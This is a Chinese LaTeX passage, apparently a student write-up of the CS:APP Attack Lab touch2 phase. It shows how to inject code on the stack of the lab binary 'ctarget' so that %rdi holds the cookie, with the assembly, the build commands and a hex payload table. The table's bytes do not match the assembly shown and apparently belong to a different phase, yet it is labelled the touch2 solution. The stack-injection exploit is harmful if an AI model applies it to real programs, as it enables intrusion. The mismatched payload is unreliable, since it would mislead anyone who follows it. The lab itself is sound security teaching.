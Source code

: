 通过touch2的C代码，我们发现这次我们不仅需要攻击调用touch2，还要传入一个正确的参数，
通过汇编找到该参数，我们可以得到cookie的值为0x59b997fa。
只有传入的参数等于cookie时，我们才能成功，否则会misfire
因此这次我们需要在栈帧中写入一些代码，以此让存放第一个参数的寄存器$\%rdi$的值为$0x59b997fa$

因为ctarget没有栈保护机制，因此栈顶的位置固定，所以我们直接在栈顶写入我们想要的代码即可
现在.s文件中写下以下汇编代码：

使用以下命令：
\begin{itemize}
    \item touch inject.S 生成一个文件
    \item vim inject.S 编辑文件
    \item gcc -c inject.S 生成.o文件
    \item objdump -d inject.o > inject.txt 反汇编输出含机器码的语句
    \item ./hex2raw < inject.txt > inject.txt 将文件转化为可读取格式
    \item ./ctarget -q -i inject.txt 运行文件
\end{itemize}

\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    movq    $0x59b997fa,%rdi
    pushq   $0x4017ec          
    ret                         
\end{lstlisting}

转化完成后，如下代码所示：
\begin{lstlisting}[language = C , title = {注入的汇编代码} ]
    touch2.o：     文件格式 elf64-x86-64
    Disassembly of section .text:
    
    0000000000000000 <.text>:
       0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
       7:	68 ec 17 40 00       	push   $0x4017ec
       c:	c3                   	ret     
\end{lstlisting}

\begin{table}[h!]
    \centering
    \begin{tabular}{llllllll}
        \hline
        48 c7 c7 a8 dc 61 55 68 \\
        fa 18 40 00 c3 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        00 00 00 00 00 00 00 00 \\
        78 dc 61 55 00 00 00 00 \\
        35 39 62 39 39 37 66 61 \\
        00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 2$ 漏洞注入方案 }
  \end{table}

